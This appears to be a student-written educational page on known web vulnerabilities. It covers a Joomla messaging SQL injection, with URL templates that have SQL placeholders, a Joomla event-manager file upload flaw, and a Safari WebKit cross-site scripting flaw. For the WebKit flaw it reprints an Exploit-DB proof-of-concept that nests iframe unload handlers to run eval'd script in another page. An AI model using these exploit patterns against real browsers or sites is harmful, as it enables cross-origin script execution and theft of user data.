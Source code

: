 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

.. image:: file_upload.png

There are many examples of known vulnerabilities regarding web security. These 
vulnerabilities can be found in a CVE (Common Vulnerabilities and Exposures) 
database. However, when the vulnerability is placed in the database, the 
developer isn't the only person who can make a query. Hackers can find the 
information just as easily, making the vulnerability a race between the 
developer and the hacker. Here are a list of some known vulernabilities in web
security, how to abuse said vulnerability, and what steps should be implemented
to patch the vulnerability.


Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla!, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Known vulnerabilities with the Joomla! application include:

**SQL Injection:**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. Below is an example of how the SQL injection could 
be implemented into a URL to access another person's messages [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

**Insecure File Upload:**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. In order to prevent this type of vulnerability, the JEM should 
restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();



Works Cited
-----------
.. [EDB] "Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [JOO] "Joomla.org." <https://www.joomla.org/>'_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [AWK] "WebKit." <https://webkit.org/>'_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>'_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.